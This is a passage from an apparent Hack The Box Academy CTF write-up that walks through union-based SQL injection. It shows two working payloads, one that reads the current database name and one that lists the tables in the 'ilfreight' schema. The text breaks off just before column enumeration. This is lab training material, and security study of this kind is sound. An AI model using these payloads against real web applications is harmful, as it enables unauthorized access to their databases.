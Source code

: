 [![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602113519.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602113519.png)

Besides the default one, we have two databases `dev` and `ilfreight`.

In order to see which one we are accessing by default, we can use `database()`.

Payload: `cn' UNION select 1,database(),2,3-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602114220.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602114220.png)

We are in the correct database.

Now for finding the tables:

Payload: `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602114330.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220602114330.png)

Great, the `users` table was what we were looking for.

Now we can get the column of that table.
